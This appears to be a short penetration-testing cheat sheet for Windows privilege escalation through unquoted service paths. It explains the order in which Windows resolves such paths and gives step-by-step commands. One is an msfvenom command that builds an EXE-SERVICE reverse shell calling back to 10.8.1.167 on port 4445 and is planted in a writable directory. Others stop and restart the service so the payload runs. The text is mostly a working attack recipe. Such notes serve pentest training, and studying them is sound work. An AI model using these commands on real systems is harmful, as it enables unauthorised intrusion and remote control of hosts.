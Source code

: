 When unquoted service `C:\Program Files\Vulnerable Application\test.exe` gets called, Windows will try running, in this order:
```C++
C:\Program.exe Files\Vulnerable Application\test.exe   // Files\Vulnerable and Application\test.exe will be passed as arguments
C:\Program Files\Vulnerable.exe Application\test.exe   // Application\test.exe will be passed as arguments
C:\Program Files\Vulnerable Application\test.exe       // Original binary.
```
Check for writability in the directories (`C:\` and `C:\Program Files\` in this case.)

Create a reverse shell (type:**EXE-SERVICE**) with the name of the next (unquoted) directory(`Program.exe, Vulnerable.exe`)
```C++
msfvenom -p windows/shell_reverse_tcp -f EXE-SERVICE -o winshell.exe LHOST=10.8.1.167 LPORT=4445
```

Restart the service:
```C++
net stop SERVICE
net start SERVICE
```
Note: if `net start`/`net stop` cannot be called, reboot the system.